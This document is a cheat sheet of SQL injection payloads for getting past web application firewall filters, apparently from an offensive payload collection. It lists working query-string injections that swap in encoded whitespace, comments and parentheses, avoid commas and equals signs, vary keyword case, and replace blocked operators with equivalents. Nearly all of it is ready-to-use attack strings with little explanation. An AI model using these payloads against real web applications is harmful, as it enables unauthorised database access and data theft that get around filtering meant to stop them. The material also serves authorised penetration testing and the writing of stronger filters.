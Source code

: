### **WAF Bypass** ###

No Space (%20) - bypass using whitespace alternatives

```
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```
?id=(1)and(1)=(1)--
```

No Comma - bypass using OFFSET, FROM and JOIN

```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

No Equal - bypass using LIKE/NOT IN/IN/BETWEEN

```
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
?id=1 and substring(version(),1,1) between 3 and 4
```

Blacklist using keywords - bypass using uppercase/lowercase

```
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator

```
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, BETWEEN, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```
